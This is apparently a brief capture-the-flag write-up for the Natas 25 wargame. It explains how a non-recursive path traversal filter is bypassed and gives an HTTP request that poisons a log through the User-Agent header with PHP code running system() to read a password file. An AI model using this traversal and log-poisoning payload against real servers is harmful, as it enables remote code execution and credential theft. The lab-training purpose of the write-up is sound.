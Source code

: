 # LFI PoC

## Description
1) ```str_replace()``` is not recursively called, whick makes it possible to
bypass this filter.

Example:
```php
php -r 'print(str_replace("../", "", "....//") . "\n");'
```

2) The log function includes the ```User-Agent``` parameter without any 
validation, which makes it possible to include arbitrary PHP code using the
LFI vulnerability.

## Request
```
GET /?lang=....//logs/natas25_kiuh65auel8ahc3u7md3rujio4.log HTTP/1.1
Host: natas25
User-Agent: <?php system("cat /etc/natas_webpass/natas26"); ?>
Cookie: PHPSESSID=kiuh65auel8ahc3u7md3rujio4
```

## Resources
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal
